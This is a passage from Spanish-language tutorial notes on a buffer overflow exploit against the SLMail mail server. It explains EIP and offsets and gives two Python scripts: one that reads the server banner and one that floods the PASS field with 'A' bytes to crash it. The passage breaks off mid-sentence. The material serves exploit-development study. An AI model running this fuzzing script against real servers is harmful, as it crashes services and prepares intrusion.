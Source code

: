 #BufferOverflow #SLMail

###### Enumeración
En las fases iniciales lo primero que debemos de hacer es averiguar cuales son los limites de los programas objetivos, esto se realiza probando a introducir más caracteres de los debidos en los diferentes campos de entrada del programa, como una cadena de texto o un archivo hasta que se detecte que la aplicación se corrompe o falla.

El registro *EIP (Extended Instruction Pointer)* es un registro de la CPU que apunta a la dirección en la memoria donde se encuentra la siguiente instrucción que se va a ejecutar. Un buffer overflow exitoso es cuando el valor del registro *EIP* se sobre escribe con una dirección controlada por el atacante.

El objetivo de averiguar el *offset* es determinar el número exacto de caracteres que se deben introducir en el campo de entrada para sobrescribir el valor del registro *EIP* y apuntar a la dirección de memoria controlada por el atacante. Una vez que se conoce el *offset*, el atacante puede diseñar un exploit personalizado para el programa objetivo que permita tomar control del registro *EIP* y ejecutar código malicioso.

Para esto nos crearemos nuestro script de Python, vamos a llamarle `exploit.py`
	En este caso al estar explotando SLMail usaremos lo siguiente:

01.-
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	
	
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		print(banner)
		
		
	if __name__ == '__main__':
	
		exploit()
```
En este punto tenemos que verificar que hemos recibido el banner, cuando ejecutamos el exploit.

02.-
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	if len(sys.argv) != 2:
		print("\n[!] Usage: exploit.py <length>")
		exit(1)
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	total_length = int(sys.argv[1])
	
	#Exploit
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n') #Enviamos un usuario en el campo USER aleatorio en este caso TEST
		response = s.recv(1024)
		s.send(b"PASS " + b"A"*total_length + b'\r\n') #En el campo PASS introducira A multiplicado por el valor que asignemos en total_length
		s.close()
		
	if __name__ == '__main__':
		
		exploit()
```
Lo ejecutaríamos probando con diferentes longitudes de bytes `python3 exploit.py 5000`, siempre se meten longitudes de menos a más.
Cuando